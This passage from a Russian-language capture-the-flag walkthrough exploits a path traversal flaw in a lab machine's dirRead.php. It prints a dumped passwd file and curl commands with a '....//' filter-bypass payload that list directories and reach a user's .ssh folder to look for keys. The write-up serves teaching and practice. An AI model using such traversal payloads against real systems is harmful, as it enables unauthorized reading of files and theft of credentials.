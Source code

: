 ```text
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

IT'S ALIVE :smiling_imp:

Пойдем дальше и исследуем домашнюю директорию пользователя, отыскав в ней SSH-ключ:
```text
root@kali:~# curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  ".dockerenv",
  "bin",
  "dev",
  "etc",
  "home",
  "lib",
  "media",
  "mnt",
  "proc",
  "root",
  "run",
  "sbin",
  "srv",
  "sys",
  "tmp",
  "usr",
  "var"
]
root@kali:~# curl -s -X POST -d "path=....//....//....//home" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  "nobody"
]
root@kali:~# curl -s -X POST -d "path=....//....//....//home/nobody" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  ".ash_history",
  ".ssh",
  ".viminfo",
  "user.txt"
]
root@kali:~# curl -s -X POST -d "path=....//....//....//home/nobody/.ssh" http://10.10.10.87/dirRead.php | jq
[
  ".",
  "..",
  ".monitor",
  "authorized_keys",
```